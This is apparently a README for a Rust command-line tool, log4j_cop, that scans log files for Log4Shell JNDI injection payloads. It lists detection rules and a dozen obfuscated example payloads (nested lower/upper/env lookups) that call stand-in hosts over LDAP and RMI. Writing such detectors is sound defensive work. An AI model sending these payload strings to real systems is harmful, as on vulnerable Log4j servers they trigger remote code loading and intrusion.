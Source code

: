 # log4j_cop

Detect log4j payloads from a log file.

**Usage through cargo:**

```bash
cargo run -- <LOG_FILE>
```

**Or build the binary for release:**

1. `cargo build --release`

```bash
./target/release/log4j_cop <LOG_FILE>
```

## Rules

Currently the following rules (and variants) are being accounted for:

* ${jndi:ldap://
* ${jndi:rmi://
* ${jndi:ldaps:/
* ${jndi:dns:/
* ${jndi:nis:/
* ${jndi:nds:/
* ${jndi:corba:/
* ${jndi:iiop:/

We are also taking into account:

* Mixed case payloads
* URL encoded payloads

## Algorithm

Each line is broken into characters and we check whether these characters match
one of our rulesets in the correct order, ignoring characters that do not match.

## Examples being matched

```
${jndi:ldap://whatever.com/z}
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//somesitehackerofhell.com/z}
${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://somesitehackerofhell.com/z}
${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://somesitehackerofhell.com/z}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://somesitehackerofhell.com/z}
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://asdasd.asdasd.asdasd/poc}
${${::-j}ndi:rmi://asdasd.asdasd.asdasd/ass}
${jndi:rmi://adsasd.asdasd.asdasd}
${${lower:jndi}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:${lower:jndi}}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://xxxxxxx.xx/poc}
```
